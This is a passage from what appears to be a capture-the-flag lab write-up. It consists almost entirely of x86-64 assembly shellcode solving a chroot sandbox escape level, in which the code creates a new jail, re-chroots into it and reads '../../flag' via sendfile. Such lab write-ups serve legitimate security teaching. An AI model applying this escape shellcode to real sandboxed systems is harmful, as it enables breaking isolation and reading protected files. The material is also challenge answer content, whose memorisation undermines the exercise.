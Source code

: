 ```
	mov rdx, 0
	mov r10, 1000
	mov rax, 0x28
	syscall

	# Exit syscall
	mov rdi, 0
	mov rax, 0x3c
	syscall

flag:
	.string "flag"
```

&nbsp;

## level 7
> Escape a chroot sandbox using shellcode, but this time only using the following syscalls: "chdir", "chroot", "mkdir", "open", "read", "write", "sendfile".

```
.global _start
.intel_syntax noprefix

_start:
	# Mkdir syscall
	lea rdi, [rip + new_jail]
	mov rsi, 0
	mov rax, 0x53 
	syscall

	# Chroot syscall
	lea rdi, [rip + new_jail]
	mov rax, 0xa1
	syscall

	# Open syscall
	lea rdi, [rip + flag]
	mov rsi, 0
	mov rdx, 0
	mov rax, 0x02
	syscall

	# Sendfile syscall
	mov rdi, 1
	mov rsi, rax
	mov rdx, 0
	mov r10, 1000
	mov rax, 0x28
	syscall

	# Exit syscall
	mov rdi, 0
	mov rax, 0x3c
	syscall

new_jail:
	.string "/newjail"

flag:
	.string "../../flag"
```
